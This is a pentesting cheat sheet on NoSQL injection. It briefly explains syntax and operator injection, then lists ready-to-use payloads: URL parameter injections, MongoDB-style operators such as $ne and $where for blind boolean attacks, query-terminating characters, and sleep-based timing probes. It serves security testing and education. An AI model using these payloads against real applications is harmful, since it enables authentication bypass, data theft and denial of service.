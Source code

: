 # 💉 NoSQL Injection

## NoSQL Injection

NoSQL injection is a vulnerability where an attacker is able to interfere with the queries that an application makes to a NoSQL database. NoSQL injection may enable an attacker to:

* Bypass authentication or protection mechanisms.
* Extract or edit data.
* Cause a denial of service.
* Execute code on the server.

NoSQL databases store and retrieve data in a format other than traditional SQL relational tables. They use a wide range of query languages instead of a universal standard like SQL, and have fewer relational constraints.



**There are two different types of NoSQL injection:**

* Syntax injection - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in [SQL injection](https://portswigger.net/web-security/sql-injection). However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
* Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.



### Where & How to Inject Payloads <a href="#where-how-to-inject-payloads" id="where-how-to-inject-payloads"></a>

```
1. site.com/page?query=term || '1'=='1
2. site.com/page?user[$ne]=nobody
```

### Simple Error Based NoSQL Injection Tests <a href="#simple-error-based-nosql-injection-tests" id="simple-error-based-nosql-injection-tests"></a>

```
'"\/$[].>
```

### Blind Boolean Injection <a href="#blind-boolean-injection" id="blind-boolean-injection"></a>

```
{"$ne": -1}
{"$in": []}
{"$and": [ {"id": 5}, {"id": 6} ]}
{"$where":  "return true"}
{"$or": [{},{"foo":"1"}]}
site.com/page?query=term || '1'=='1
site.com/page?user[$ne]=nobody
site.com/page?user=;return true
```

You may need to try appending certain characters to correctly terminate the query:

```
//
%00
'
"
some number of closing brackets or braces, in some combination
```



### Timing Based Injection <a href="#timing-based-injection" id="timing-based-injection"></a>

```
{"$where":  "sleep(100)"}
;sleep(100);
```



## Automated Tool

{% embed url="https://github.com/Charlie-belmer/nosqli" %}
